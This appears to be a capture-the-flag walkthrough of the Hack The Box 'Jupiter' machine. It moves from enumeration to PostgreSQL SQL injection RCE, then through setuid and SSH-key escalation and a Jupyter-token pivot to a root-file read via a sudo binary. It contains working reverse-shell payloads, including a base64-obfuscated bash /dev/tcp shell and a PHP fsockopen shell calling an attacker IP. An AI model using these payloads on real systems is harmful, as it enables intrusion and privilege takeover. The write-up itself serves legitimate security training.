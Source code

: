 we add the target machine at /etc/hosts:

	sudo nano /etc/hosts
	10.10.11.216	jupiter.htb

we start with a port enumerations:

	rustscan -a jupiter.htb

output:

	Open 10.10.11.216:22
	Open 10.10.11.216:80

the 80 is open so we browse it and in the meantime we run gobuster and wfuzz for the enumeration of dir and vhosts:

	gobuster dir -u http://kiosk.jupiter.htb/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,txt,html,old,docx -t 200 

	wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.jupiter.htb" -u http://jupiter.htb/ --hc 301

output:

	gobuster:
	/contact.html         (Status: 200) [Size: 10141]
	/img                  (Status: 301) [Size: 178] [--> http://jupiter.htb/img/]
	/.html                (Status: 403) [Size: 162]
	/index.html           (Status: 200) [Size: 19680]
	/about.html           (Status: 200) [Size: 12613]
	/services.html        (Status: 200) [Size: 11969]

	wfuzz:
	000001955:   200        211 L    798 W      34390 Ch    "kiosk" 

gobuster seems to find some directories but if we browse the website there isn't any interesting intead of the subdomain kiosk got my attention; we add to /etc/hosts and we re-run another gobuster:

	sudo nano /etc/hosts
	10.10.11.216	jupiter.htb  kiosk.jupiter.htb

gobuster command:

	gobuster dir -u http://kiosk.jupiter.htb/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,txt,html,old,docx -t 200

output:

	/login                (Status: 200) [Size: 34390]
	/profile              (Status: 302) [Size: 29] [--> /login]
	/signup               (Status: 200) [Size: 34390]
	/public               (Status: 302) [Size: 31] [--> /public/]
	/admin                (Status: 302) [Size: 24] [--> /]
	/plugins              (Status: 302) [Size: 24] [--> /]

We crawl the website like for 1 hour, so we decide to open Burpsuite, there are some requests to the db and we have also the root priviliege on the db itself, so we can try to do a RCE execution via SQL injection with these payload found on internet:

	 DROP TABLE IF EXISTS cmd_exec;          
	 CREATE TABLE cmd_exec(cmd_output text);
	 "COPY cmd_exec FROM PROGRAM 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2Ljc1LzMzMzMgMD4mMQ== | base64 -d | bash';

in the meantime we run pwncat:

	python3 -m pwncat
	connect -lp 4444

we're inside with postgresql'user, time to run linpeas.sh:

	-upload /YOUR PATH/linpeas.sh /tmp/linpeas.sh

there isn't any interesting, so we try to do a simple command:

	find / -user juno 2>/dev/null

output:

	/dev/shm/network-simulation.yml 

this .yml is runned by juno and it can be exploit in order to a privesc, in the .yml we add this lines:

	/server section/
	/usr/bin/cp
	/bin/bash /tmp/bash --> juno will run is shell and we copy it in a new shell

	/client section/
	/usr/bin/chmod
	u+s /tmp/bash ---> we set userid for the bash.

if we go in /tmp and we run:

	./bash -p

we're juno but it seems we don't have the full permissions indeed we can't cat user.txt but if we run linpeas.sh, it's tell us that it's possible to modify the authorized_keys so it takes 2 minutes to change the publick key already in with an our publick key and enter via SSH:

	ssh-keygen
	/we copy the public key in authorized keys/
	ssh -i id_rsa juno@10.10.11.216

we're juno and we can retrieve the user.txt.
This time I want to relaunch the find command in order to retrieve the file owned by jovian:

	find / -user jovian 2>/dev/null

there are some jupyter log files and if you open it, you can see that:
- jupyter run on 127.0.0.1:8888
- some access token inside 

so we do these following commands:

	ssh -i id:rsa -L 8888:127.0.0.1:8888 juno@10.10.11.216 ---> we forwarded the 8888 port on the target machine on our 8888 port.
	http://127.0.0.1:8888

we paste the right token, we're in, if we search around, it seems we can add and run python script aka revshell

	python3 -m pwncat
	connect -lp 9999

	php -r '$sock=fsockopen("10.10.16.75",9999);exec("/bin/bash <&3 >&3 2>&3");' --> we run it

sbam, we're jovian, all we need is root, i run this command:

	sudo -l

and it prompted this:

	User jovian may run this following commands on jupiter:
		(ALL) NOPASSWD: /usr/local/bin/sattrack

if we run it sattrack it seems to find the configuration file, so i try to find is strings with the command below:

	strings sattrack | grep -i config

output:

	config.json

the config.json have a "tlesources" to get something from URL link, we can change with:

	file:///root/root.txt 
	sudo sattrack

and if we go strict to /tmp we can retrieve the root flag. 








